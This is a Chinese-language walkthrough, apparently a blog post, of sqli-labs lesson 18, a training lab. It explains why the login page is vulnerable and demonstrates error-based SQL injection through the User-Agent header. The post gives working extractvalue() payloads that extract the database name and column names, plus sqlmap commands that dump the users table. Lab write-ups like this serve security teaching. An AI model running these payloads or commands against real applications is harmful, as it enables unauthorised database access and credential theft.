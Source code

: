 ```yaml
---
title: sqli-labs lession 18 POST基于错误的Uagent字段数据头注入
date: 2018-09-28 19:30:37
tags: [sqli-labs]
categories: sql注入
---
```

# sqli-labs lession 18 POST基于错误的Uagent字段数据头注入 #
---

## 登录界面 ##

![1](/img/sql/Lesson-18/1.png)

## 分析 ##

显示了咱的ip地址...嗯...测试了下Username和Password的输入数据,发现没有什么搞头。用个admin账号登录成功试了下。

![2](/img/sql/Lesson-18/2.png)

把我的User-Agent信息显示了出来。

User-Agent干什么用呢:

![3](/img/sql/Lesson-18/3.png)

`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0`

对照一下手册查看信息

Mozilla/5.0 (platform; rv:geckoversion) Gecko/geckotrail Firefox/firefoxversion

* Mozilla/5.0 是一个通用标记符号，用来表示与 Mozilla 兼容，这几乎是现代浏览器的标配。
  
* platform 用来说明浏览器所运行的原生系统平台（例如 Windows、Mac、Linux 或 Android），以及是否运行在手机上。搭载 Firefox OS 的手机仅简单地使用了 "Mobile" 这个字符串；因为 web 本身就是平台。注意 platform 可能会包含多个使用 "; " 隔开的标记符号。
  
* rv:geckoversion 表示 Gecko 的发布版本号（例如  "17.0"）。在近期发布的版本中，geckoversion 表示的值与 firefoxversion 相同。
  
* Gecko/geckotrail 表示该浏览器基于 Gecko 渲染引擎。

* 在桌面浏览器中， geckotrail  是固定的字符串 "20100101" 。
  
* Firefox/firefoxversion 表示该浏览器是 Firefox，并且提供了版本号信息（例如  "17.0"）。

拿到了我的信息总要有点东西留给我的吧。

查看源码：

![4](/img/sql/Lesson-18/4.png)

对账户密码做了过滤,登录成功后接着又把ip地址和User-Agent信息保存下了数据库的`uagents`表中。

![5](/img/sql/Lesson-18/5.png)

因为插入User-Agent信息插入数据表的时候没有检查,可以在此处利用报错注入。

## 注入 ##

先用正确账号登录。

![6](/img/sql/Lesson-18/6.png)

再在`User-Agent`构造报错。

`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and '1'='1`

检查出单引号闭合。

![7](/img/sql/Lesson-18/7.png)

payload:

`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and  extractvalue(null,concat(0x7e,database(),0x7e)) and '1'='1`

![8](/img/sql/Lesson-18/8.png)

中间与Lesson-17一样,直接上获取列的图

![9](/img/sql/Lesson-18/9.png)

`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and  extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e)) and '1'='1`

## SQLMAP ##

```
--leveal 

level: 设置检测的方方面面和测试用例, 默认是1,会尝试POST和GET, 2:Cookie也会加入检测, 3:User-Agent和Referer也会检测, 更大的值会增加用例量

--user-agent

指定User-Agent

--data

指定请求的内容

--threads

指定并发线程

--dbms

指定后端数据库,给定后端数据库的类型可以减少减少无关的测试用例.

--fresh-queries 

fresh-queries会忽略之前的查询结果,进行重新请求操作

--flush-session

flush-session会清空当前URL相关的session
```

`sqlmap -u http://10.60.250.66/sqlilabs/Less-18/ --data "uname=admin&passwd=admin&submit=Submit" --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and '1'='1" --level 4 --threads 10 --dbms mysql --fresh-queries --flush-session`

![10](/img/sql/Lesson-18/10.png)

`sqlmap -u http://10.60.250.66/sqlilabs/Less-18/ --data "uname=admin&passwd=admin&submit=Submit" --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and '1'='1" -D security -T users --columns --dump`

![11](/img/sql/Lesson-18/11.png)